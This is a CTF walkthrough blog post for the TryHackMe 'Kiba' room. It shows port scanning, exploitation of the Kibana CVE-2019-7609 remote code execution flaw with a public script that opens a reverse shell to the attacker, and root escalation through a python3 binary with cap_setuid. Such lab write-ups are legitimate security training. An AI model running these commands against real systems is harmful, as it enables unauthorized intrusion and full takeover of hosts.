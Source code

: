 ```yaml
---
layout: post
title: kiba writeup
subtitle: Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/kiba/logo.png
share-img: /assets/img/path.jpg
tags: [ctf,tryhackme, writeup, kiba]
---
```


Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution. Have Fun!


## Here is a machine information

| Title | Kiba | 
| :------ |:--- | 
| Difficulty | Easy | 
| Point | 500 |
| Maker | Stuxnet |
| Infor | This is a free room, which means anyone can deploy virtual machines in the room  | 


## RUST SCAN and Enumeration
Normally, i will use the nmap for first step recon and also collect machine information. After some machine and read the article about rust scan. So what is the rust scan? How is it work? you can find here: https://github.com/RustScan/RustScan. It realy fast than nmap. 


``` rustscan -b 500 machine-ip ```
<em>

-b : the batch size for port scanning, it increases or slows the speed of scanning. Depends on the open file limit of your OS.  If you do 65535 it will do every port at the same time. Although, your OS may not support this [default:4500]
</em>

It will take few time to scan: 

![rustscan](/leiz95/assets/img/kiba/rustscan.png)

We got 3 open ports. Go through each port. In port 5601, this is the kibana application.

![kibana](/leiz95/assets/img/kiba/5601.png)

Kibana is a free and open user interface that lets you visualize your Elasticsearch data and navigate the Elastic Stack. Do anything from tracking query load to understanding the way requests flow through your apps.

We can manual go throung all tag in the kibana. We got version 6.5.4.
Let's google the version which have any public vulnerability.
There is the vulnerability as remote code executed in this version.

![kibana](/leiz95/assets/img/kiba/vulnerability.png)

From the CVE-2019-7609, we can use 2 source from here:
by manual: https://github.com/mpgn/CVE-2019-7609
By auto code: https://github.com/LandGrey/CVE-2019-7609

I will use auto code try to exploit. Clone the code from github

``` git clone https://github.com/LandGrey/CVE-2019-7609.git ```

Exploit by run command:

``` python CVE-2019-7609-kibana-rce.py  -u http://machine-ip:5601 -host yourip port 1234 --shell ```

At your attacker machine, we need to listen the port 1234

![nc](/leiz95/assets/img/kiba/nc.png)

Then wait for shell connect

![shell](/leiz95/assets/img/kiba/shell.png)

From kibana home directory, we have the user flag.

![shell](/leiz95/assets/img/kiba/user.png)

## 	Escalate privileges 

As the hint, Capabilities is a concept that provides a security system that allows "divide" root privileges into different values.
Here is more source if you don't understand it.

- [Working with Linux Capabilities](https://www.vultr.com/docs/working-with-linux-capabilities#)

- [Linux Privilege Escalation using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

Reading capabilities
To view if a file has any capability set, you can simply run 

`getcap /full/path/to/binary`

If you'd like to find out which capabilities are already set on your system, you can search your whole file-system recursively with the following command:

```getcap -r /```

Run this command on target machine, you will see a lot of error. To ignore error we should run:


```getcap -r / 2>/dev/null```

![shell](/leiz95/assets/img/kiba/result.png)

The thing realy interesting is: `/home/kiba/.hackmeplease/python3 = cap_setuid+ep
`

The python3 can SETUID which can abuse to Escalate root.

From https://gtfobins.github.io/gtfobins/python/#capabilities we have available code to exploit. Let's do it.

```python
 /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")' 
 ```

 Yeahm, we got root user.

 ![shell](/leiz95/assets/img/kiba/root.png)

Now we can find root flag via: 

```javasript
find / -type f -name root.txt 2>/dev/null
```

Then we cat the root.txt and got the flag.!!!
